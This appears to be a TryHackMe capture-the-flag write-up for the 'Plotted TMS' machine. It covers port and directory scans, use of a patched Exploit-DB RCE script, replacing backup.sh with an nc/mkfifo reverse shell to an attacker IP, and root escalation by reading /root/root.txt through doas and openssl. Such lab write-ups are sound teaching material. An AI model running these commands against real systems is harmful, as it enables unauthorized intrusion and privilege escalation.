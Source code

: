 ```yaml
---
layout: post
title:  "Plotted TMS"
categories: [tryhackme]
tags: [linux]
---
```


### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -sS -sV 10.10.1.194   

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Directory Scan Port 445

```bash
┌──(kali㉿Zeus)-[~]
└─$ dirb http://10.10.1.194:445           
<snip>
==> DIRECTORY: http://10.10.1.194:445/management/
==> DIRECTORY: http://10.10.1.194:445/management/admin/
==> DIRECTORY: http://10.10.1.194:445/management/assets/
==> DIRECTORY: http://10.10.1.194:445/management/build/
==> DIRECTORY: http://10.10.1.194:445/management/classes/
==> DIRECTORY: http://10.10.1.194:445/management/database/
<snip>
```

### Traffic Offense Management System - Remote Code Execution (RCE) (Unauthenticated)

![image]( /assets/img/plottedtms/2.PNG)

![image]( /assets/img/plottedtms/3.PNG)

```bash
locate php/webapps/50221.py
cp /usr/share/exploitdb/exploits/php/webapps/50221.py .
2to3 -w 50221.py
```

There was an error with the script so i edit the line 107

- before

```python
request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
```

- after

```python
request = requests.post("http://10.10.1.194:445"+find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
```

### RCE Confirmed 

![image]( /assets/img/plottedtms/4.PNG)

### Privileges Escalation - User Owned

![image]( /assets/img/plottedtms/5.PNG)

![image]( /assets/img/plottedtms/6.PNG)

- Change the backup.sh content 

```bash
rm -rf backup.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.45.56 5555 >/tmp/f" > backup.sh
chmod 777 backup.sh
chmod +x backup.sh
```

![image]( /assets/img/plottedtms/7.PNG)

### Privileges Escalation - Root Owned

```bash
plot_admin@plotted:~$ find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/doas
<snip>
```

Resource : https://book.hacktricks.xyz/linux-unix/privilege-escalation#doas
Resource : https://gtfobins.github.io/gtfobins/openssl/#file-read

```bash
permit nopass plot_admin as root cmd openssl
```

![image]( /assets/img/plottedtms/8.PNG)


```bash
LFILE=/root/root.txt
doas -u root openssl enc -in "$LFILE"
```


![image]( /assets/img/plottedtms/9.PNG)